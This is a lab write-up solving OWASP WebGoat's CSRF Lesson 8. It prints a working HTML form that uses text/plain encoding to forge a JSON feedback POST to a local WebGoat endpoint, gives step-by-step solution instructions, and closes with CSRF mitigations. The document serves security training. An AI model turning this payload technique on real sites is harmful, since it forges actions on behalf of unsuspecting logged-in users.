

# WebGoat CSRF – Lesson 8

## Objective

The objective of this lesson is to understand how a CSRF attack can be used to submit a forged feedback message to a vulnerable WebGoat application.

## Vulnerable Endpoint

```text
http://127.0.0.1:8080/WebGoat/csrf/feedback/message
```

## CSRF Payload

The following HTML form can be copied and pasted into an `.html` file and opened in a browser:

```html
<!DOCTYPE html>
<html>
<body>

<form action="http://127.0.0.1:8080/WebGoat/csrf/feedback/message"
      method="POST"
      enctype="text/plain">

    <input name='{"name":"WebGoat","email":"webgoat@webgoat.org","subject":"service","message":"WebGoat is the best!!","ignoreme":"'
           value='test"
           type="hidden">

    <input type="submit" value="Submit">

</form>

</body>
</html>
```

## How It Works

The form sends a POST request to:

```text
http://127.0.0.1:8080/WebGoat/csrf/feedback/message
```

The request contains feedback information constructed through the form's `name` and `value` attributes.

The submitted data represents:

```text
name=WebGoat
email=webgoat@webgoat.org
subject=service
message=WebGoat is the best!!
```

### Important Parameters

```html
<input name='{"name":"WebGoat","email":"webgoat@webgoat.org","subject":"service","message":"WebGoat is the best!!","ignoreme":"'
       value='test"
       type="hidden">
```

Contains the feedback data used by the forged request.

```html
method="POST"
```

Specifies that the feedback request is sent using the HTTP POST method.

```html
enctype="text/plain"
```

Specifies that the browser should submit the form using `text/plain` encoding, which is important for the request format used in this WebGoat challenge.

## Solution Steps

1. Start the OWASP WebGoat application locally.
2. Open the WebGoat CSRF Lesson 8 page.
3. Identify the feedback submission endpoint.
4. Inspect the parameters and request format required by the application.
5. Create an HTML file containing the crafted CSRF form.
6. Save the payload as an `.html` file.
7. Open the HTML file in the browser while the WebGoat session is active.
8. Click **Submit**.
9. The browser sends the forged POST request to the WebGoat feedback endpoint.
10. Return to WebGoat and verify that the challenge has been successfully completed.

## Result'


The forged feedback request was successfully submitted and the WebGoat CSRF challenge was completed.

## Key Learning

* CSRF attacks can target state-changing operations such as submitting feedback.
* HTML forms can be used to construct forged HTTP requests.
* Hidden form fields can carry attacker-controlled values.
* POST requests can also be vulnerable to CSRF.
* The `text/plain` encoding can be used when the vulnerable application expects a specific request format.
* Applications should verify that state-changing requests are legitimate.

## Mitigation

Common CSRF protections include:

* Anti-CSRF tokens
* `SameSite` cookie attributes
* Origin/Referer validation
* Re-authentication for sensitive operations
* Server-side request validation
* Avoiding state-changing operations through GET requests

## Tools Used

* OWASP WebGoat
* Web Browser
* HTML
* HTTP
* Burp Suite

## Disclaimer

This demonstration was performed against the intentionally vulnerable OWASP WebGoat application in a controlled local environment for educational and cybersecurity learning purposes only.
